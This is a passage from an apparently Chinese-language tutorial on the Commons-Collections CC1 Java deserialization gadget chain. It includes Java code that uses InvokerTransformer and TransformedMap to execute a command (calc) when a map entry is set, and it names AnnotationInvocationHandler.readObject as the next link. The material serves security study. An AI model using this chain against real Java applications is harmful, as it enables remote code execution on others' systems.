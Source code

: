 `MapEntry`是Map中的一个键值对，所以`setValue`就是给键值对赋值

第一步我们是通过`TransformedMap.java`来调用`checkSetValue`

这一步我们是通过给Map键值对赋值来调用`checkSetValue`

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
       
        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put("value","aaa");
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap,null,invokerTransformer);
for (Map.Entry entry : decorateMap.entrySet()) {
            entry.setValue(runtime);
        }
```

## 第三步-寻找readObject()

`AnnotationInvocationHandler`下的`readObject`中调用了`setvalue`

![image-20250923135908964](./Commons-Collections篇01-CC1链/image-20250923135908964.png)![image-20250923135922087](./Commons-Collections篇01-CC1链/image-20250923135922087.png)